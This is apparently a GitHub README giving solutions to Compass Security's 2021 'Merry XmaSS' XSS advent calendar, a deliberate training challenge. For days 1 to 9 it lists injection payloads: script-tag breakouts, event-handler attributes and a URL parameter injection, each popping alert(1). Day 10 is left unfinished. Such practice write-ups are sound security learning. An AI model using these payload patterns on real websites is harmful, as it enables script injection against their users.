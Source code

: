 # Merry XmaSS – XSS advent calendar 2021

Find the challenge hosted by [Compass Security](https://www.compass-security.com/de/) here: https://xmass.compass-demo.com/

Use your XSS skills to pop up *alert(1)* windows on every day.

**SPOILER ALERT!** Stop reading here, if you want to solve the challenges yourself.

---

These are some solutions I was able to find, I am sure there are many more.

**+++ Day 1 +++**  
https://xmass.compass-demo.com/level1
```
<script>alert(1)</script>
```
**+++ Day 2 +++**  
https://xmass.compass-demo.com/level2
```
a"><script>alert(1)</script
```
alternative solution (*user interaction required*)
```
a" onfocus="alert(1)"
```
**+++ Day 3 +++**  
https://xmass.compass-demo.com/level3
```
"><script>alert(1)</script>
```
**+++ Day 4 +++**  
https://xmass.compass-demo.com/level4
```
a";alert(1);"
```
**+++ Day 5 +++**  
https://xmass.compass-demo.com/level5
```
a</textarea><script>alert(1)</script>
```
**+++ Day 6 +++**  
https://xmass.compass-demo.com/level6
```
<img src="#" onerror="alert(1)"/>
```
**+++ Day 7 +++**  
https://xmass.compass-demo.com/level7 *(use URL below to get the alert window)*
```
https://xmass.compass-demo.com/level7?inject=<script>alert(1)</script>
```
**+++ Day 8 +++**  
https://xmass.compass-demo.com/level8
```
" autofocus onfocus="alert(1)
```
alternativ solution *(mouse cursor has to be in the 'conent area' of the browser)*
```
" onmouseover="alert(1)" style="display: block; position: fixed; top: 0; left: 0; z-index: 99999; width: 9999px; height: 9999px; (mouse cursor musst be on content area of browser window)
```
**+++ Day 9 +++**  
https://xmass.compass-demo.com/level9
```
<img src="#" onerror="alert(1)"/>
```
**+++ Day 10 +++**  
https://xmass.compass-demo.com/level10
```
tbc
```